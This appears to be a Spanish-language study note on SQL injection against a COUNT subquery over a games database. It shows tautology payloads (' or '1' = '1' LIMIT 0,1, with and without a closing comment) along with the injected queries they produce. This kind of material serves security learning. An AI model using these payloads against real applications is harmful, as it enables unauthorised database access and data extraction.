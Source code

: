## Query 1

````sql
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
````

- Este query **solo es para contar** así que es algo complejo sacar información, pero sirve para entender la inyección cuando solo se puede obtener una linea de resultado. 
- Se debe poner `LIMIT` ya que este tipo de query solo arroja un resultado, en caso de poner únicamente el `or 1 = 1`

### Inyección: ` or '1' = '1' LIMIT 0,1`

- En realidad este SQLi no necesitaría comentario al final, incluso el comentario podría dar error porque ya no podría cerrar el `');` final.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or 1 = 1 LIMIT 0,1);
````

### Inyección `' or '1' = '1' LIMIT 0,1) -- -`

- Aquí si se pone comentario ya que nosotros mismos "imaginamos" que debíamos cerrar el query con `')` desplazando el `'` original.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or '1' = '1' LIMIT 0,1) -- - ');
````




````
